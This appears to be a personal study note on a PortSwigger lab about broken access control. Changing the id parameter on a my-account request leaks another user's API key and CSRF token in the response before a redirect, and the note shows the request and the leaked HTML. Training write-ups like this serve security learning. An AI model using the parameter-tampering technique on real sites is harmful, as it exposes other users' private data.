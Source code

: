 # User ID controlled by request parameter with data leakage in redirect

[Lab in PortSwigger](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect)

## Definition
n some cases, an application does detect when the user is not permitted to access the resource, and returns a redirect to the login page. However, the response containing the redirect might still include some sensitive data belonging to the targeted user, so the attack is still successful.

## Notes
Request to acess `my-account` page:
```http
GET /my-account?id=<username>
```

Trying to acess `my-account` page from another user, the original page is leaked before the redirection.
```html
<h1>My Account</h1>
<div id=account-content>
    <p>Your username is: carlos</p>
    <div>Your API Key is: eItXXhaESlkYNMTPs5yhlPdcFgMgALs3</div><br/>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required type="hidden" name="csrf" value="eY5Ov92vyGlAt3W2NeWb13RxL8oI7K1Q">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

## Key Words
> id, user, data, leak